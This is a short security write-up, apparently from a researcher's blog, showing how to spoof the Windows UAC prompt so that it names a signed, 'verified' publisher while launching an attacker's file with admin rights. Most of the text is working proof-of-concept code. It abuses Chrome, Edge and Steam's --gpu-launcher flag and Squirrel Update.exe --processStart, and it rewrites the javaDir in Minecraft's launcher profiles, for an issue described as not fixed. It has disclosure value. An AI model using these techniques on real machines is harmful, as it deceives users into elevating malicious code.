 ```yaml
---
title: UAC Spoof (Not Fixed)
---
```


Spoofing the Windows UAC (user account control) prompt "verified" publisher :)  
PoCs can be found at <https://github.com/NDevTK/UACSpoof>  
![UAC prompt](https://ndevtk.github.io/writeups/UAC.png)

This is a very easy spoof since all it needs is a signed program to launch the attackers code while maintaining admin privileges.

# Chromium

Will run what ever program is set in `gpu-launcher`

```js
App.ShellExecute "C:\Program Files\Google\Chrome\Application\chrome.exe", "--disable-gpu-sandbox --do-not-de-elevate --gpu-launcher=" + <FILE>, , "runas"
```

```js
App.ShellExecute "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe", "--disable-gpu-sandbox --do-not-de-elevate --gpu-launcher=" + <FILE>, , "runas"
```

```js
App.ShellExecute "C:\Program Files (x86)\Steam\bin\cef\cef.win7x64\steamwebhelper.exe", "--disable-gpu-sandbox --do-not-de-elevate --gpu-launcher=" + <FILE>, , "runas"
```

# Squirrel Updater

Will run what ever program is set in `processStart`

```js
App.ShellExecute <Discord/Postman> + "Update.exe", "--processStart <FILE>", , "runas"
```

# Minecraft

Will run what ever program is set as the `javaDir` in `launcher_profiles.json`

```js
Profiles = "{""profiles"":{""release"":{""created"":""1970-01-02T00:00:00.000Z"",""icon"":""Grass"",""javaDir"":""<RUNTIME>"",""lastUsed"":""1970-01-02T00:00:00.000Z"",""lastVersionId"":""latest-release"",""name"":"""",""type"":""latest-release""},""snapshot"":{""created"":""1970-01-01T00:00:00.000Z"",""icon"":""Dirt"",""javaDir"":""<RUNTIME>"",""lastUsed"":""1970-01-01T00:00:00.000Z"",""lastVersionId"":""latest-snapshot"",""name"":"""",""type"":""latest-snapshot""}},""settings"":{""crashAssistance"":true,""enableAdvanced"":false,""enableAnalytics"":true,""enableHistorical"":false,""enableReleases"":true,""enableSnapshots"":false,""keepLauncherOpen"":false,""profileSorting"":""ByLastPlayed"",""showGameLog"":false,""showMenu"":false,""soundOn"":false},""version"":3}"
Profiles = Replace(Profiles, "<RUNTIME>", Replace(Temp, "\", "\\"))
```
